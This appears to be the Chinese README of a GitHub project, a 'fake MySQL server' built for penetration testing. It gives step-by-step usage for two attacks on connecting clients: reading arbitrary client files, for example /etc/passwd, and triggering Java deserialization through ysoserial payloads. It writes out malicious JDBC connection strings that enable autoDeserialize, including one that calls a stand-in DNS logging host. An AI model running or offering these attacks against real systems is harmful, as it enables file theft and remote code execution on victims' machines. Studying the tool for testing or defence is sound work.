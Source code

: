 # MySQL Fake Server
用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

无需编译MySQL插件，无需每次修改需要读取的文件。

修改自项目https://github.com/waldiTM/python-mysqlproto

## 用途

1. MySQL服务端恶意读取客户端文件漏洞
2. JDBC客户端Java反序列化漏洞

## 说明
1. 需要python3环境，无任何其它依赖。
2. 需要[ysoserial](https://github.com/frohoff/ysoserial)才能用反序列化功能。
3. MySQL的用户名支持冒号、斜杠等特殊符号，但是能否使用还需看具体客户端环境。
4. 运行：`python server.py`

## 测试环境：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Windows下反序列化)
2. PHPMyAdmin(Windows+Linux文件读取，可以使用相对路径读取php文件内容)
3. Navicat 12(Windows下文件读取)

## 使用方法
1. 文件读取：
    - 可以在config.json中fileread节中预定义好要读取的文件,key为用户名,value为要读取的文件名
    - 可以用fileread_开头的用户名(例如使用用户名fileread\_/etc/passwd来读取/etc/passwd文件)
2. 反序列化
    - 可在config.json中yso节预定义好yso payload的生成参数，key为用户名，value为ysoserial的参数
    - 可以用yso_开头的用户名，格式yso\_payload类型\_命令（例如jdk7u21调用calc就使用用户名yso\_Jdk7u21\_calc）
    - jdbc连接串示例：
      - 8.0.7以上：`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - 5.x:`jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`
3. 关于认证：默认认证插件一般使用**mysql_native_password**,但是由于议实现的问题，navicat下会连接失败，此时在使用的用户名后追加 **_clear** 即可切换为mysql_clear_password,navicat连接成功,读取到文件。
    - **例如：** fileread\_/etc/passwd_clear

## 踩过的坑

1. SHOW VARIABLES 相关
   - 会读取两列，所以需要返回两列，否则会报错。
   - JDBC连接的时候回通过调用`SHOW VARIABLES`获取服务器变量，其中最重要的是两个时区变量`system_time_zone`和`time_zone`，在getObject过程，会调用到时区相关信息，没有这两个会直接报错
2. jdbc的Blob判定条件除了字段类型为blob，还要求字段声明的org_table字段不为空，flags大于128，否则会被当做text进行解析。（com.mysql.cj.protocol.a.NativeProtocol的findMysqlType方法）
3. 原python-mysqlproto中的序列检测需要去掉，否则会出错（这个应该是哪里处理有问题导致了序号重置）。
4. `SHOW SESSION STATUS`和`SHOW COLLATION`的公用列是第二列
5. mysql java connector 5.x的环境下，需要返回的server版本大于等于5.0.0才会走到`Util.resultSetToMap`进入getObject
## 顺便招个聘

欢迎各位大佬投递简历，大家一起来愉快地玩耍~^_^

https://www.anquanke.com/post/id/200462

## 参考资料

**项目基础：**
https://github.com/waldiTM/python-mysqlproto


膜拜大佬实现的Python版mysql协议，一切都是在此项目上进行的修改。

**漏洞相关:**

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://paper.seebug.org/1112/

https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

**协议相关：**
https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html

https://dev.mysql.com/doc/internals/en/character-set.html

https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Data